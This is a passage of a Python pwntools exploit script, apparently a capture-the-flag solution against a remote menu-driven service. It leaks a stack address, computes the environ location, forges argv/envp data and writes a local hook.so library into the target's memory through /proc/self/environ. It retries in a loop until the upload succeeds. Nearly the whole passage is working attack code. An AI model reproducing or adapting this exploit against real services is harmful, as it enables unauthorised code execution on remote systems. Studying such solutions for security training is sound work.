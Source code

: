 ```python
    y.sendlineafter( '6) exit' , '2' )
    y.sendlineafter( 'input old voucher :' , fromm )

def lot( a ):
    y.sendlineafter( '6) exit' , '3' )
    for i in a:
        y.sendline( i )

def slot():
    y.sendlineafter( '6) exit' , '5' )
    y.sendlineafter( 'press any key' , '' )

'''
maps
mem
stack
environ
'''

while True:
    y = remote( host , port )

    slot()
    p = [ '1' , '+' , '+' , '1' , '+' , '1' , '1' , '1'  ]
    lot( p )

    y.recvuntil( '===================' )
    y.recvuntil( '===================\n' )
    stk = int( y.recvuntil( ' :' )[:-2] )
    y.recvline()
    stk += int( y.recvuntil( ' :' )[:-2] ) << 32
    success( 'stack -> %s' % hex( stk ) )

    env = (( stk + 0x2000 ) & 0xfffffffff000) + 0x273
    info( 'environ -> %s' % hex( env ) )

    p = flat(
        0, stk + 0x110,
        0, 0,
        0, 0,
        1, stk + 0x1169, # argv
        0, env , # envp
        env + 0x42, 0,
    ).ljust( 0xc0 , '\x00' )

    hook = open( './hook.so' ).read().replace( '\n' , '\x00' )

    hook_so = 'ho0o0o0o0o0o0o0o0o0o0o0o0o0o0k'
    version = '.00'
    put( hook_so + version )

    mer( ('/proc/self/environ'.rjust( 0x20 , '/' ) + '\x00' * ( 0xd0 - 0x20 ) + p).ljust( env - stk - 0x70, '\x00' ) + hook )

    try:
        y.sendlineafter( '6) exit' , '6' )
        y.close()
        success( 'Upload hook.so succeed!' )
        break
    except:
        y.close()

y = remote( host , port )
```